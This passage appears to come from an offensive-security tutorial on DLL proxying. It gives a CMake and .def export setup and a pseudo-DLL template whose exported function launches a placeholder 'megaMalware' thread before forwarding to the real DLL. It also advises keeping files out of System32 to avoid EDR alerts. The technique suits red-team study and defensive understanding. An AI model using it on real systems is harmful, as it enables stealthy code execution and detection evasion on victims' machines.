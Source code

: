 ```C
        break;
    }
    return TRUE;
}
```

If your executable is vibing with calling functions by ordinal numbers instead of names, you'll need to handle exports properly. One way is to create a Module-Definition File (.def) in Microsoft Visual Studio and let it handle the magic for you. Or, better yet - break free and embrace CMake!

```C
---- CMAKE ----
add_library(project-name SHARED <Sus DLL>.c)
set_target_properties(project-name PROPERTIES LINK_FLAGS "/DEF:${CMAKE_SOURCE_DIR}/exports.def")
---- .def ----
EXPORTS
  YourCoolFunction @OrdinalNumber
```

Don't mess too much with official files in C:\Windows\System32-EDRs are like neurotic cleaners who really don't appreciate things being out of place. A misplaced or altered file might set off alarms and land your work in front of an unlucky analyst. Best to keep a low profile.
To wrap things up, it's all about the proxy, proxy and more proxies. Make sure the exported functions operate as expected. Open your thread or whatever necessary context, then call the required function and return control when done. This ensures smooth execution while allowing the functions to work properly.

```C
--- Pseudo DLL ----
#include <Windows.h>
// Why implement when you can proxy. Implement per function required(づ￣ 3￣)づ
#pragma comment (linker, "/export:<yourFunc>=<newName>.<yourFunc>,@ordinal")

VOID megaMalware(){
  MessageBoxA(NULL, "Boh!", "We made it!", MB_OK | MB_ICONEXCLAMATION);
}
typedef PVOID(WINAPI* <yourFunc>)();
extern __declspec(dllexport) PVOID <yourFunc>() {
  // Launch that sucker!
  CreateThread(NULL, 0x00, megaMalware, NULL, 0x00, NULL);
  
  // Launch the expected func 
  ## Loadlib
  ## GetProcAddress
  return <yourFunc>();
  
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReasonForCall, LPVOID lpReserved) {
    switch (dwReasonForCall) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
